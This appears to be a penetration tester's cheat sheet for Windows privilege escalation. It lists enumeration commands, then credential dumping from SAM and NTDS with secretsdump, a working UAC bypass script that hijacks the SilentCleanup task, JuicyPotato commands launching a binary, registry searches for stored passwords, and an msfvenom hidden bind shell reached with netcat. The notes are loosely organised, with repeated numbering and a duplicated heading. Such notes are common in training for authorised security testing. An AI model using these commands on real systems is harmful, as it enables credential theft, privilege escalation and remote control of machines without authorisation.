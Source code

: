 ## INTERNAL RECONNAISANCE
1. Enumerating the operating system version and architecture
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`

2. Enumerating processes and services
`tasklist /SVC`

3. Enumerating Networking Information
`ipconfig /all`
`route print`
`netstat -ano`

4. Enumerating Firewall status and rules
`netsh advfirewall show currentprofile`
`netsh advfirewall firewall show rule name=all`

5. Enumerating scheduled tasks
`schtasks /query /fo LIST /v`

6. Enumerating installed applications and patch levels
**NOTE: WMIC returns ONLY installed by Microsoft Installer** 
`wmic product get name, version, vendor`

`wmic qfe get Caption, Description, HotFixID, InstalledOn`

7.  Enumerating installed applications and patch levels
`.\accesschk.exe -uws "Everyone" "C:\Program Files"`
`Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`

8. Enumerating unmounted disks
`mountvol`

9. Enumerating Device drivers and kernel modules
`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path`

`Get-WmiObject Win32\_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$\_.DeviceName -like "\*VMware\*"}`

10. Enumerating binaries that autoelevate 
**NOTE: If this key is enabled (set to 1) in either HKEY\_CURRENT\_USER or HKEY\_LOCAL\_MACHINE, any user can run Windows Installer packages with elevated privileges.**

11. Insecure File permissions.
- List the service that is running.
`Get-WmiObject win32\_service | Select-Object Name, State, PathName | Where-Object {$\_.State -like 'Running'}`

- Check if any users has read and write access to change to binary by malicious one.
`icacls "C:\\Program Files\\Serviio\\bin\\ServiioService.exe"`

- Unquoted service vulnerability can be use to elevate the privileges from any user to administrator, replacing the unquoted path with malicious binary.

`reg query HKEY\_CURRENT\_USER\\Software\\Policies\\Microsoft\\Windows\\Installer`

`reg query HKEY\_LOCAL\_MACHINE\\Software\\Policies\\Microsoft\\Windows\\Installer`



1.secretsdump.py -sam sam -system system local
  secretsdump.py -ntds ntds.dit -system system local
- grab the sam and system in the victim
- if sam is not available NTDT.dit is another optios

```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

2. Mapped Drives
```
 $pw = convertto-securestring 'aliceishere' -AsPlainText -Force
 $creds = New-Object System.Management.Automation.PSCredential('Bethany\Alice',$pw)
 New-PSDrive -Name test -PSProvider FileSystem -Credential $creds -Root \\192.168.119.123\test
 ```
 
 3. Find specific text

a. powershell
```
gci -recurse -filter monkey.exe -File -ErrorAction SilentlyContinue
```

b. cmd
```
dir /b/s *.txt
dir /s /b network-secret.txt
```
2. UAC BYPASS
```
if(((\[System.Security.Principal.WindowsIdentity\]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload goes here
    #It'll run as Administrator
} else {
    $registryPath = "HKCU:\\Environment"
    $Name = "windir"
    $Value = "powershell -ep bypass -w h $PSCommandPath;#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value
    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks /run /tn \\Microsoft\\Windows\\DiskCleanup\\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
```

[Powershell \*real\* UAC Bypass - Bash Bunny - Hak5 Forums](https://forums.hak5.org/topic/45439-powershell-real-uac-bypass/)


3. PRIVESC on WIndows XP
[Windows XP SP0/SP1 Privilege Escalation to System Tutorial (sohvaxus.github.io)](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)


4. JUICYPOTATO
```
.\jp.exe -t * -p 'c:\users\all users\run.bat' -l 1337 -c '{C49E32C6-BC8B-11d2-85D4-00105A1F8304}'

./JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\users\sophie\documents\bind.exe" -t *
```

5. Query passwords.
`reg query HKLM /f password /t REG\_SZ /s`
`reg query HKCU /f password /t REG\_SZ /s`


## DIFFICULTY TO GET REVERSE SHELL TRY CREATE A BIND SHELL
`msfvenom -p windows/shell_hidden_bind_tcp AHOST=172.16.1.100 LPORT=443 -f exe -o hidden.exe`
`nc <ip> <port>`